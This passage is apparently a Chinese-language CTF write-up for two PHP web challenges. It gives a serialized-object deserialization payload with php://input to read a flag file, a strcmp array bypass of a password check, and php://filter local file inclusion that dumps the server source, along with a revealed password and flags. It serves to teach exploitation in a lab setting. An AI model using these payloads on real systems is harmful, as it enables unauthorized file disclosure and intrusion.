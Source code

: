 ```php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//fffffflag.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "Awwwwwwwwwww man";
    }
}
?>
```
由index.php得知通过file参数包含class.php，pass参数反序列化从fffffflag.php读取flag，访问“/?user=php://input&pass=O:4:"Read":1:{s:4:"file";s:13:"fffffflag.php";}&file=class.php”得到fffffflag.php源码
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
//flag{woyebuzhidaoyaononggeshaflagheshia}
?>
```
flag就是
```
flag{woyebuzhidaoyaononggeshaflagheshia}
```

<br/>

#### ping(300)

> http://120.55.43.255:21173

查看网页源码
```html
There is a ping.php
<!--
    $password="****************";
     if(isset($_POST['password'])){
        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";
            include($_REQUEST['path']);
            exit();
        } else {
            echo "Wrong password..";
        }
-->
```
password参数使用数组绕过，path参数通过“php://filter/read=convert.base64-encode/resource=”读取网页源码如下
```php
# index.php
<?php
    echo "There is a ping.php";
    $password="ACmvXfSFUayohrLB";
    if(isset($_POST['password'])){
        if (strcmp($_POST['password'],$password) == 0) {
            echo "Right!!!login success";
            include($_REQUEST['path']);
            exit();
        }
        else{
            echo "Wrong password..";
        }
    }
?>

<!--
```